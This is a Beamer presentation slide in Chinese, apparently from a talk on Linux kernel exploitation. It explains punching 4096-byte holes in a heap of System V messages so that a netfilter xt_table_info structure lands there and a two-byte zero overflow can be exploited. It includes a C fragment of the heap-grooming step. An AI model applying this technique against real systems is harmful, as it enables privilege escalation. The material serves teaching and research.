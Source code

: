 \documentclass[xcolor=table]{beamer}
\begin{document}
\begin{frame}[fragile]
\frametitle{释放部分主消息}

\small{当消息被暂存时需要内核开辟缓冲区保存消息，当消息被接收后，缓冲区失去价值，会被释放。

在原内存布局中释放一些主消息，可以获得相应的4096bytes内存空洞，如果某个内存空洞被xt\_table\_info结构体获得，就可以利用溢出2字节0 的特性进行下一步利用。}

\tiny\begin{lstlisting}[language=c]
    int read_msg(int msqid, void *msgp, size_t msgsz, long msgtyp) {
        if (msgrcv(msqid, msgp, msgsz - sizeof(long), msgtyp, 0) < 0) {
            perror("[-] msgrcv");
            return -1;
        }
        return 0;
    }

    printf("[*] Creating holes in primary messages...\n");
    for (int i = HOLE_STEP; i < NUM_MSQIDS; i += HOLE_STEP) {
        if (read_msg(msqid[i], &msg_primary, sizeof(msg_primary), MTYPE_PRIMARY) <
            0)
            goto err_rmid;
    }
\end{lstlisting}


\end{frame}
\end{document}

